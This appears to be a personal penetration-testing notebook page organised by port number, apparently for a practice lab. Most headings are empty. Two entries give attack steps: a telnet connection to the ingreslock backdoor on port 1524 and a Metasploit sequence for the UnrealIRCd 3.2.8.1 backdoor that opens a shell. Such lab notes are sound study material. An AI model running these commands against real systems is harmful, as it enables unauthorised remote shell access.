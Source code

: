 ### 514

### 1099

### 1524
##### ingreslock exploit
```
telnet [ip] 1524
```
![Pasted image 20250611104215](../../zzAttachments/Pasted%20image%2020250611104215.png)
### 2049

### 2121

### 3306

### 5432

### 5900

### 6000

### 6667
##### unreal_irc
```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set payload 6
set rhost [IP]
set lhost eth0
```
![Pasted image 20250611095552](../../zzAttachments/Pasted%20image%2020250611095552.png)